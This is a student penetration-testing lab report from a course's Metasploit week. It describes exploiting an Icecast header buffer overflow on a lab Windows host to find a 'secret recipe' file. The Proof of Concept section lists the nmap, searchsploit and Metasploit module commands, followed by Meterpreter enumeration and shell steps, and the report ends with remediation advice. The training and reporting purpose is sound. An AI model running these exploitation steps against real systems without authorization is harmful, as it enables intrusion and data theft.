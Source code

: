 ## Week 17: Metasploit

### Background

For this assignment I played the role of a penetration tester hired by the fictional company GoodCorp Inc. to perform security tests against the CEO's computer.

## GoodSecurity Penetration Test Report

### 1.0 High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans’ computer and determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software and find the secret recipe file on Hans’ computer, while reporting the findings back to GoodCorp.
When performing the internal penetration test, there were several alarming vulnerabilities that were
identified on Hans’ desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploiting two programs that had major vulnerabilities. The details of the attack can be found in the ‘Findings’ category.

### 2.0 Findings

**Machine IP:**
192.168.0.20

**Hostname:**
MSEDGEWIN10

**Vulnerability Exploited:**
Icecast Header Overwrite: exploit/windows/http/icecast_header

**Vulnerability Explanation:**
This is a buffer overflow attack which allows the attacker to execute code when too much data is entered into the header of icecast versions 2.0.1 and earlier.  Specifically, 32 HTTP headers must be sent to the remote host in order to overwrite saved instructions.  This vulnerability is exploited with the help of ExitThread to make icecast think the thread is still in use.

**Severity:*
This vulnerability is critical.  An attacker could access everything on the CEO’s machine including the system information.  Therefore, this vulnerability could have been exploited for reconnaissance purposes to gather information to perform a future attack.  Additionally, an attacker potentially could have found banking information for the CEO or the company, they could have accessed sensitive documents pertaining to the CEO which could have led to the theft of his identity, or the attacker may have uncovered proprietary information about their products which the company would not want in the hands of their competitors.  As the attacker had full access to the CEO’s machine, the possibilities are endless when it comes to the damage the attacker could cause.

**Proof of Concept:**
1. Ran nmap on the IP address to perform a service and version scan: nmap -sV 192.168.0.20

2. Found the Icecast service was running so I used SearchSploit to search for exploits: searchsploit icecast

3. Set up the exploit using Metasploit:
   - search icecast
   - use exploit/windows/http/icecast_header
   - set RHOSTS 192.168.0.20
   - exploit

4. Found files:
   - Found secretfile.txt : search -f *secret*
   
      ![secretfile](Images/Week_17/secretfile.png)
   
   - Found recipe.txt: search -f *recipe*
   
      ![recipe](Images/Week_17/recipe.png)

5. Used Meterpreter’s local exploit searcher to determine additional exploits: run post/multi/recon/local_exploit_suggester
  - Discovered the following exploits:
    - exploit/windows/local/ikeext_service
    - exploit/windows/local/ms16_075_relection
    
      ![local_exploit_suggester](Images/Week_17/local_exploit_suggester.png)

6. Enumerated all logged on users: run post/windows/gather/enum_logged_on_users

![enum_logged_on_users](Images/Week_17/enum_logged_on_users.png)

7. Opened a Meterpreter shell and determined system information:
   - shell
   - systeminfo
   
     ![systeminfo1](Images/Week_17/systeminfo1.png)
     ![systeminfo2](Images/Week_17/systeminfo2.png)

### 3.0 Recommendations

1. All software needs to be updated to the latest versions.
2. Password protect and/or encrypt files containing sensitive information.
3. Update firewall rules to only allow traffic on necessary ports.
4. Consider limiting the information company executives have access to as they are high profile targets.
